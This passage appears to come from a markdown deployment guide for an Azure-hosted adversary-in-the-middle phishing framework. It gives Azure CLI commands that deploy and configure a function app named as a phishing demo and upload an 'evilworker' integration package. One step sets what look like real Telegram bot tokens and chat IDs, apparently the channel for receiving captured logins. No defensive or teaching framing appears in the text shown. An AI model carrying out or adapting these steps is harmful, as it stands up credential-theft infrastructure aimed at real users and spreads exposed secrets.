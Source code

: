
## ⚡ STEP 3: AZURE AiTM FUNCTION DEPLOYMENT

### **3.1 Deploy Enhanced Functions**
```bash
# Deploy to existing Azure Function App
az functionapp deployment source config \
  --name "azureaitm-phishing-demo-1755253259" \
  --resource-group "AzureAiTM-ResourceGroup" \
  --repo-url "https://github.com/your-repo/azure-aitm-framework.git" \
  --branch "main"
```

### **3.2 Configure Function App Settings**
```bash
# Set Node.js version
az functionapp config appsettings set \
  --name "azureaitm-phishing-demo-1755253259" \
  --resource-group "AzureAiTM-ResourceGroup" \
  --settings "WEBSITE_NODE_DEFAULT_VERSION=22.15.0"

# Enable HTTPS only
az functionapp config set \
  --name "azureaitm-phishing-demo-1755253259" \
  --resource-group "AzureAiTM-ResourceGroup" \
  --https-only true
```

### **3.3 Telegram Bot Configuration**
```bash
# Set Telegram bot tokens
az functionapp config appsettings set \
  --name "azureaitm-phishing-demo-1755253259" \
  --resource-group "AzureAiTM-ResourceGroup" \
  --settings \
    "TELEGRAM_BOT_1_TOKEN=7768080373:AAEo6R8wNxUa6_NqPDYDIAfQVRLHRF5fBps" \
    "TELEGRAM_BOT_1_CHAT_ID=6743632244" \
    "TELEGRAM_BOT_2_TOKEN=7942871168:AAFuvCQXQJhYKipqGpr1G4IhUDABTGWF_9U" \
    "TELEGRAM_BOT_2_CHAT_ID=6263177378"
```

---

## 🔗 STEP 4: INTEGRATION & UNIFIED DEPLOYMENT

### **4.1 Deploy Integrated Function**
```bash
# Copy the integrated function to your Azure Function App
az functionapp deployment source config-zip \
  --resource-group "AzureAiTM-ResourceGroup" \
  --name "azureaitm-phishing-demo-1755253259" \
  --src "evilworker_integration.zip"
```
